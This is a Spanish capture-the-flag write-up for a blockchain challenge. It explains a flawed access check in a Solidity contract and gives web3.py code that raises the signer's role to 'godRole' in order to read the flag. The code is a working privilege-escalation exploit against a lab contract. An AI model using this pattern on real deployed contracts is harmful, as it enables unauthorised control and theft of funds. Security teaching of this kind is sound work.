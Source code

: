 # blockchain02 #

- **Tipo:** Blockchain
- **Autor:** Deloitte
- **Autor del Writeup:** [focab0r](https://github.com/focab0r)
- **Flag:** `?`

## WriteUp ##

Al descomprimir el ZIP, nos encontramos ante tres archivos:
- contract.sol: Este es el contrato de la blockchain. Leyendo, se ve claramente que la flag se obtiene al llamar a la funcion `getFlag()`
- ABI\_and\_contract.txt: Contiene la direccion y el ABI del contrato. Este es un codigo necesario para interactuar con el contrato.
- accounts.txt: Aqui hay una gran cantidad de direcciones privadas existentes en la blockchain. Necesitaremos una de ellas para firmar transacciones.

Empezamos leyendo el contrato. Para que la funcion `getFlag()` nos devuelva la flag, comprueba antes que el rol del usuario que firma la transaccion es igual a "godRole", mediante la siguiente linea:
```
require(roles[msg.sender] == godRole, "Access denied."); // only accessible by GodRole
```
Este godRole se consigue con la funcion `getIdGodRole(address user)`. Sin embargo, esta tambien comprueba antes que el rol de nuestro usuario sea mayor que 2, por lo que tenemos que aumentar nuestro rol (a la derecha, en un comentario, pone que este es 1).
```
function getIdGodRole(address user) public view returns (uint) {
    require(roles[user] > 2, "Access denied."); // only accessible by role 1
    return godRole;
}
```
Por lo tanto, la unica solucion consiste en llamar a setRole y cambiar el rol del usuario. Afortunadamente, lo unico que comprueba la funcion es que el usuario del cual se quiera cambiar el rol, sea el mismo que el que firma la transaccion (Como "||" es un "OR", el resto de la restriccion no es necesaria).
```
require(msg.sender == user || roles[msg.sender] > 0, "Access denied.");
```

### Construyendo un codigo para obtener la flag (Python) ###

Podemos empezar comprobando que rol tenemos. Para ello, llamamos a la funcion `getRole(adress user)` y le pasamos nuestra direccion, previamente definida como account.adress. Printeamos el valor:
```
role = contract.functions.getRole(user_address).call()
print(f'The role of {user_address} is {role}')
```
Posteriormente, cambiamos nuestro rol y ponemos uno superior a 2. Como esta es una funcion que conlleva un cambio, la forma de llamarla es diferente, ya que es necesario firmarla:
```
nonce = web3.eth.get_transaction_count(account.address)
tx = contract.functions.setRole(user_address,3).build_transaction({
    'gas': 2000000,
    'gasPrice': web3.to_wei('10', 'gwei'),
    'nonce': nonce
})

signed_tx = web3.eth.account.sign_transaction(tx, private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
tx_receipt = web3.eth.wait_for_transaction_receipt(tx_hash)

```
Con los privilegios obtenidos, podemos ver el GodRole, llamando a la funcion correspondiente
```
godRole = contract.functions.getIdGodRole(user_address).call()
print(f'GodRole is {godRole}')
```
y actualizar posteriormente nuestro rol al GodRole:
```
nonce = web3.eth.get_transaction_count(account.address)
tx = contract.functions.setRole(user_address,godRole).build_transaction({
    'gas':2000000,
    'gasPrice':web3.to_wei('10','gwei'),
    'nonce': nonce
})

signed_tx = web3.eth.account.sign_transaction(tx, private_key)
tx_hash = web3.eth.send_raw_transaction(signed_tx.rawTransaction)
```
Finalmente, podemos llamar a la funcion getFlag(), pasandole nuestra direccion en el campo "from", tal como lo especifica el contrato.
```
flag = contract.functions.getFlag().call({'from': user_address})
print(f'Flag: {flag}')
```
El codigo completo se puede encontrar en "exploit.py"
